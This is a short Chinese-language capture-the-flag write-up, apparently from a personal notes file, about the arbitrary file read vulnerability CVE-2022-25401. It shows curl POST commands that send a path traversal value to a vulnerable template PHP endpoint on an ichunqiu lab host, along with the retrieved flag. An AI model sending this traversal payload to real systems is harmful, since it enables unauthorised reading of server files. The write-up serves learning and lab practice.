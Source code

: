 # 任意文件读取漏洞

## CVE-2022-25401

### 1.题目简介

![image-20231130153148810](C:\Users\曾俊豪\AppData\Roaming\Typora\typora-user-images\image-20231130153148810.png)

### 2.CVE-2022-25401简介

![image-20231130153228643](C:\Users\曾俊豪\AppData\Roaming\Typora\typora-user-images\image-20231130153228643.png)

### 3.渗透测试

#### kali的curl请求访问根目录下的flag文件

根据提示访问administrator/templates/default/html/windows/right.php文件

![image-20231130154043415](C:\Users\曾俊豪\AppData\Roaming\Typora\typora-user-images\image-20231130154043415.png)

没有内容显示，但是没有返回404 Not Found，说明有文件存在

![image-20231130154213424](C:\Users\曾俊豪\AppData\Roaming\Typora\typora-user-images\image-20231130154213424.png)

使用curl请求：

```shell
curl -X POST "http://xxx.ichunqiu.com/templates/default/html/windows/right.php" -d "url=../../../../../../../../../../../../flag"
```

```shell
curl -X POST "http://eci-2ze4poplqcb9hh9yev7e.cloudeci1.ichunqiu.com/templates/default/html/windows/right.php" -d "url=../../../../../../../../../../../../flag"
```

 得到flag:

![image-20231130154418440](C:\Users\曾俊豪\AppData\Roaming\Typora\typora-user-images\image-20231130154418440.png)

> flag{04573b32-e011-4ddf-a78b-42b577493f89}

